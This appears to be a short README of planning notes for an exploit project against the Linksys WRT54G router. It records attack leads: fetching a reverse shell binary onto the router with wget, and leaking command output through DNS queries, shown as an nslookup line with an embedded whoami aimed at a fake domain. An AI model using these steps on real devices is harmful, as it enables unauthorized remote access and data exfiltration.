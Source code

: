 # Exploiting Linksys WRT54G


### Leads for leaking command output
- [x] Look for file paths that are displayed within the web interface that command output can be written to.
- [x] Use `wget` to download reverse shell binary to the router.
- [ ] Config the attacker as the DNS server and force the router to issue DNS requests with the command output.  
  Like ```nslookup `whoami`.fake.domain```


### TODOs
- Use argparse and make the exploit an executable.
- Start the reverse shell server within the exploit itself.


### Wonders & Thoughts
- If `ui_language` is stored in nvram (Non-Volatile Memory), how come it fixes itself upon reboot?


[Firmware Download Link](https://www.linksys.com/us/support-article?articleNum=148648)
